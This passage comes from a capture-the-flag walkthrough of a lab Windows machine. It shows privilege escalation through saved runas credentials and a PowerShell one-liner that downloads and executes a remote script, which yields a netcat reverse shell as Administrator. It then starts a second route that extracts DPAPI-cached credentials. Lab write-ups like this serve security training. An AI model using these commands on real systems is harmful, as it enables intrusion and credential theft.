     C:\Users\security\AppData\Local\Temp>runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.11/shell.ps1')"



`(new-object net.webclient).downloadstring('http://10.10.14.11/shell.ps1')`
will generate a web request for the given url and return the text. `iex`
will execute that result as PowerShell.

I see the callback in my `nc` window:



    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.98] 49164
    Windows PowerShell running as user Administrator on ACCESS
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\Windows\system32>whoami
    access\administrator



From there I can grab `root.txt`:



    PS C:\users\administrator\desktop> dir


        Directory: C:\users\administrator\desktop


    Mode                LastWriteTime     Length Name
    ----                -------------     ------ ----
    -a---         8/21/2018  11:07 PM         32 root.txt


    PS C:\users\administrator\desktop> type root.txt
    6e1586cc...



### Privesc #2 - dpapi creds

As the creds are cached, I can extract them. harmj0y has a [good
write-up on
this](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/).

#### Collect Files

I'll grab two binary files from windows host, the master key and
credentials file.

First, I'll find the master key:



    C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>dir /a
     Volume in drive C has no label.
     Volume Serial Number is 9C45-DBF0
